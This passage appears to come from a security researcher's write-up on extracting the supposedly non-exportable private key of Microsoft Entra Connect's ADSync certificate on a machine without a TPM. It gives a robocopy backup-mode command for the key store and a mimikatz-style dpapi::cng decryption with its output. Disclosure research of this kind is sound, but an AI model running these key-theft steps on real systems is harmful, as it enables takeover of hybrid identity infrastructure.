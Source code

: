 ![](image-1.png)


[When Microsoft updated their documentation](https://github.com/MicrosoftDocs/entra-docs/commit/bd92855d2eef5267321f0c7d8055e4f52eb9eb13), they stated that:
> The certificate is stored in the Local Machine store. The private key is marked as non-exportable, which means it will never leave the machine boundary. You can improve your security by installing this on a machine with Trusted Platform Module (TPM). In such a case, the private key will be securely stored inside TPM. For more information on TPM, see [Trusted Platform Module Technology Overview](/windows/security/hardware-security/tpm/trusted-platform-module-overview).

Given that my testing lab did not have a TPM, the key could be extracted despite it being "non-exportable". The administrative SMB client I'd been using access denied, but robocopy clutched:
```powershell
robocopy "X:\Windows\ServiceProfiles\ADSync\AppData\Roaming\Microsoft\Crypto\Keys" .\ /b e01176ef910fed3fac217881bd195186_16ebd844-7036-4683-af05-d666e63187ef
```

Which could then be decrypted with the masterkey from before:
```powershell
PS > dpapi::cng /in:e01176ef910fed3fac217881bd195186_16ebd844-7036-4683-af05-d666e63187ef /masterkey:56a0c50ae1a8b3a6a9db3b...
...
 * masterkey     : 56a0c50ae1a8b3a6a9db3b0bbed5292ecff....
        |Provider name : Microsoft Software Key Storage Provider
        |Implementation: NCRYPT_IMPL_SOFTWARE_FLAG ;
        Algorithm      : RSA
        Key size       : 2048 (0x00000800)
        Export policy  : 00000003 ( NCRYPT_ALLOW_EXPORT_FLAG ; NCRYPT_ALLOW_PLAINTEXT_EXPORT_FLAG ; )
        Exportable key : YES
        LSA isolation  : NO
        Private export : OK - 'dpapi_cng_0_78239eb2-75cd-4285-bbbd-b0a917a0840b.rsa.pvk'

```
